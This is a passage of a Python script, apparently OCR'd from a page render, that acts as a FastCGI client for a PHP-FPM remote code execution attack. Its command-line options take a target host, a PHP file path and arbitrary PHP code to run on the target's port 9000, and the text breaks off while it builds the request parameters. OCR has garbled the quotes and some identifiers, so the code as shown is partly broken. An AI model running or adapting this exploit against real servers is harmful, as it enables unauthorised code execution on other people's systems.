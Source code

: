    self.sock.send(request)
    self.requests[requestId]['state'] = FastCGIClient.FCGI_STATE_SEND
    self.requests[requestId]['response'] = b''
    return self.__waitForResponse(requestId)

def __waitForResponse(self, requestId):
    data = b''
    while True:
        buf = self.sock.recv(512)
        if not len(buf):
            break
        data += buf

    data = BytesIO(data)
    while True:
        response = self.__decodeFastCGIRecord(data)
        if not response:
            break
        if response['type'] == FastCGIClient.__FCGI_TYPE_STDOUT \
                or response['type'] == FastCGIClient.__FCGI_TYPE_STDERR:
            if response['type'] == FastCGIClient.__FCGI_TYPE_STDERR:
                self.requests['state'] = FastCGIClient.FCGI_STATE_ERROR
            if requestId == int(response['requestId']):
                self.requests[requestId]['response'] += response['content']
        if response['type'] == FastCGIClient.FCGI_STATE_SUCCESS:
            self.requests[requestId]
    return self.requests[requestId]['response']

def __repr__(self):
    return "fastcgi connect host:{} port:{}".format(self.host, self.port) 
```

if **name** == ‘**main**’:

parser = argparse.ArgumentParser(description=‘Php-fpm code execution vulnerability client.’)

parser.add_argument(‘host’, help=‘Target host, such as 127.0.0.1’)

parser.add_argument(‘file’, help=‘A php file absolute path, such as /usr/local/lib/php/System.php’)

parser.add_argument(’-c’, ‘–code’, help=‘What php code your want to execute’, default=’<?php phpinfo(); exit; ?>’)

parser.add_argument(’-p’, ‘–port’, help=‘FastCGI port’, default=9000, type=int)

```
args = parser.parse_args()

client = FastCGIClient(args.host, args.port, 3, 0)
params = dict()
documentRoot = "/"
uri = args.file
content = args.code
params = {
    'GATEWAY_INTERFACE': 'FastCGI/1.0',
    'REQUEST_METHOD': 'POST',
    'SCRIPT_FILENAME': documentRoot + uri.lstrip('/'),
    'SCRIPT_NAME': uri,
    'QUERY_STRING': '',
    'REQUEST_URI': uri,
    'DOCUMENT_ROOT': documentRoot,
    'SERVER_SOFTWARE': 'php/fcgiclient',
    'REMOTE_ADDR': '127.0.0.1',
    'REMOTE_PORT': '9985',
    'SERVER_ADDR': '127.0.0.1',
    'SERVER_PORT': '80',